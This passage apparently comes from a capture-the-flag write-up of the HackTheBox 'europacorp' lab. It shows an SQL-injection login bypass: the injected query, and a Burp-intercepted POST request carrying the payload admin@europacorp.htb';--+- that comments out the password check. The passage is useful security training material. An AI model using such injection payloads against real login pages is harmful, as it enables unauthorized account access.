 

    SELECT * FROM users WHERE email='admin@europacorp.htb';-- -' and password='$password_hash';



If the email `admin@europacorp.htb` exists, this will return one row,
and let me in. I'll turn on Intercept in Burp Proxy, and submit
`admin@europacorp.htb` with any password. Burp catches the request, and
I'll edit it to include the injection:



    POST /login.php HTTP/1.1
    Host: admin-portal.europacorp.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://admin-portal.europacorp.htb/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 39
    Connection: close
    Cookie: PHPSESSID=6o0ld056n5a3v8gkvv57fg6dk5
    Upgrade-Insecure-Requests: 1

    email=admin%40europacorp.htb';--+-&password=a



On sending the request, I'll turn off intercept, and back in Firefox I'm
logged in:

